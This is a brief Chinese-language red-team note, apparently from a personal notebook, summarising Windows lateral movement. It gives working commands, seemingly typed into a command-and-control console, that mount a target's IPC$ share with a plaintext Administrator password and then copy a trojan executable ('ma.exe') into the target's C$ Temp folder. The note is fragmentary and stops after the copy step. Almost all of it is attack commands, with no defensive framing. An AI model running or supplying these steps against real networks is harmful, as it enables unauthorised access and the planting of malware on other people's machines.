## 碰见的移动方法总结

    主机开启139和445端口，IPC移动
    '''
    shell net use \\\\192.168.10.23\\ipc$ "Psft24680!!@@62##" /user:"Administrator"
    '''
    
    在本地传个马，copy过去
    
    shell copy C:\\Windows\\Temp\\ma.exe \\\\192.168.10.23\\c$\\Windows\\Temp\\ma.exe
    
    
